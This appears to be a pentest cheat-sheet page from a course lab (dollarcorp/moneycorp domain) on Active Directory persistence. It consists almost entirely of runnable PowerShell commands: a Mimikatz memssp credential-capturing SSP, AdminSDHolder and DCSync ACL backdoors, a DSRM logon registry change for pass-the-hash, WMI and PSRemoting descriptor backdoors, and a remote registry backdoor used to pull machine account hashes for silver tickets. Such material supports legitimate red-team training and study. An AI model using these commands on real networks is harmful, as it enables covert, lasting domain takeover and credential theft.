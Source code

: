 # ACLs

### **Custom SSP**

With MimiKatz, or the use of mimilib.dll.

```powershell
Invoke-Mimikatz -Command '"misc::memssp"'
```

### **ACLs – AdminSDHolder**

#### Modify the ACLs to add Full Control permissions for a user to the AdminSDHolder using PowerView as a Domain Admin

{% code overflow="wrap" %}
```powershell
Add-ObjectAcl -TargetADSprefix 'CN=AdminSDHolder,CN=System' -PrincipalSamAccountName student1 -Rights All -Verbose
```
{% endcode %}

#### _Using ActiveDirectory Module and Set-ADACL_

{% code overflow="wrap" %}
```powershell
Set-ADACL -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=<DOMAIN>,DC=<DOMAIN> C=<DOMAIN>' -Principal <Controlled User> -Verbose
```
{% endcode %}

#### _Use of_ [_race_ ](https://github.com/samratashok/RACE)_toolkit_

```AD_module
Set-DCPermissions -Method AdminSDHolder -SAMAccountName student1 -Right GenericAll -DistinguishedName 'CN=AdminSDHolder,CN=System,DC=dollarcorp,DC=moneycorp,DC=local' -Verbose
```

### **ACLs – Right Abuse**

#### _Add FullControl rights_ using powershell

{% code overflow="wrap" %}
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName <Controlled User> -Rights All -Verbose
```
{% endcode %}

#### Using ActiveDirectory Module and Set-ADACL

```AD_module
Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal student1 -Verbose
```

#### _Add rights for DCSync_ using powershell

{% code overflow="wrap" %}
```powershell
Add-ObjectAcl -TargetDistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' - PrincipalSamAccountName <Controlled User> -Rights DCSync -Verbose
```
{% endcode %}

#### Using ActiveDirectory Module and Set-ADACL

<pre class="language-powershell" data-overflow="wrap"><code class="lang-powershell"><strong>Set-ADACL -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Principal &#x3C;Controlled User> -GUIDRight DCSync -Verbose
</strong></code></pre>

### **DC persistence by abusing the DSRM service.**

The DSRM administrator is not allowed to logon to the DC from network. So we need to change the logon behavior for the account by modifying registry on the DC

{% code overflow="wrap" %}
```powershell
New-ItemProperty "HKLM:\System\CurrentControlSet\Control\Lsa\" -Name "DsrmAdminLogonBehavior" -Value 2 -PropertyType DWORD
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231025115059.png" alt=""><figcaption></figcaption></figure>

Now from the attack box we can simply [pass the hash](../active-directory/lateral-movement/pass-the/pass-the-hash.md) and use the dsrm administrator session

### **Grant remote access to a stupid user**

Once we have administrative privileges on a machine, we can modify security descriptors of services to access the services without administrative privileges. Open a session with invoke-mimi or rubeus and launch invishell. import the[ RACE.ps1 module](https://github.com/samratashok/RACE)

```powershell
. ./RACE.ps1
```

And modify the service

{% code overflow="wrap" %}
```powershell
Set-RemoteWMI -SamAccountName <Controlled User> -ComputerName <Machine> -namespace 'root\cimv2' -Verbose
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231025144401.png" alt=""><figcaption></figcaption></figure>

Now we granted the acces to us

```powershell
gwmi -class win32_operatingsystem -ComputerName <MACHINE>
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025144606.png" alt=""><figcaption></figcaption></figure>

***

We can do the same but with powershell. After opened the session and imported

```powershell
. C:\AD\Tools\RACE.ps1
```

{% code overflow="wrap" %}
```powershell
Set-RemotePSRemoting -SamAccountName <STUPID USER> -ComputerName <MACHINE> -Verbose
```
{% endcode %}

To check if the command worked

```powershell
Invoke-Command -ScriptBlock{whoami} -ComputerName <MACCHINA>
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025145545.png" alt=""><figcaption></figcaption></figure>

### **Retrieve hash of Machine without admin access**

To retrieve access without Domain admin access we need to modify a permission on the dc. So open a session, import[ race.ps1](https://github.com/samratashok/RACE) and launche te command.

```powershell
. C:\AD\Tools\RACE.ps1
```

```powershell
Add-RemoteRegBackdoor -ComputerName <MACHINE> -Trustee <CONTROLLED USER> -Verbose
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025150802.png" alt=""><figcaption></figcaption></figure>

and retrieve the hash

```powershell
. C:\AD\Tools\RACE.ps1
```

```powershell
Get-RemoteMachineAccountHash -ComputerName <MACHINE> -Verbose
```

<figure><img src="../../.gitbook/assets/Pasted image 20231025150902.png" alt=""><figcaption></figcaption></figure>

and with that we can [create a silver ticket](ticket-forging.md) for the services (in this case HOST)

##
